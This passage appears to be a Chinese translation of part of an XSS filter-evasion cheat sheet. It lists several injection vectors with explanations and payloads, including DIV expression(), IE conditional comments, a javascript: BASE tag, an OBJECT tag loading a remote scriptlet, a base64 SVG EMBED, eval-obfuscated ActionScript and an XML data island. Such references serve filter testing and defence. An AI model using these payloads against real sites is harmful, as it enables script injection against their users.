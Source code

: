 -----
##DIV expression##
在冒号和表达式之间添加换行符是一个更加有效的去绕过实际的xss过滤器的表达式变体。

    <DIV STYLE="width: expression(alert('XSS'));">
    
-----
##html条件选择注释块##
只能工作在IE5.0 以及更高版或是使用了ie渲染引擎的Netscape 8.1 。 一些网站认为任何包裹在注释中的内容都是安全的，因此它们并不会被移除。这将使我们的xss向量可使用。或者系统可能对某些内容添加注释去试图无害的渲染它。如我们所见，这有时并不起作用。

    <!--[if gte IE 4]>
    <SCRIPT>alert('XSS');</SCRIPT>
    <![endif]-->

-----
##BASE标签##
工作在ie或是使用了安全模块的Netscape 8.1，你需要使用 "//"去避免javascript错误。它需要当前网站使用相对路径（例如images/image.jpg）而非绝对路径。如果路径开始用一个斜杠（例如"/images/image.jpg"），你需要去掉xss向量中的一个斜杠（只有在两个斜杠的情况下才会起到注释作用）

    <BASE HREF="javascript:alert('XSS');//">
    
-----
##OBJECT标签##
如果允许object标签，那么你也可以注入病毒payloads去感染用户。类似于APPLET标签。下面这个链接文件是一个包含xss代码的html文件。

    <OBJECT TYPE="text/x-scriptlet" DATA="http://ha.ckers.org/scriptlet.html"></OBJECT>

-----
##使用一个你可以载入包含有xss代码的flash文件的 EMBED 标签##
点击这个demo，如果你加入属性allowScriptAccess="never" and allownetworking="internal"，则可以缓解这个风险（谢谢Jonathan Vanasco 提供的这个信息）

    <EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
    
-----
##在flash中使用ActionScript可以混淆你的xss向量##

    a="get";
    b="URL(\"";
    c="javascript:";
    d="alert('XSS');\")";
    eval(a+b+c+d);
    
-----
## CDATA混淆的 XML数据岛##
这个xss向量仅可以在IE 和使用了ie渲染引擎的 Netscape 8.1 下工作。它是 Sec Consult在审计雅虎网站时发现。

    <XML SRC="xsstest.xml" ID=I></XML>
    <SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>


  [1]: http://ha.ckers.org/xsscalc.html
  [2]: http://ha.ckers.org/xsscalc.html
  [3]: http://ha.ckers.org/xsscalc.html
  [4]: http://help.dottoro.com/
  [5]: http://help.dottoro.com/ljfvvdnm.php
  [6]: https://tools.ietf.org/html/rfc2397
  [7]: http://ha.ckers.org/xsscalc.html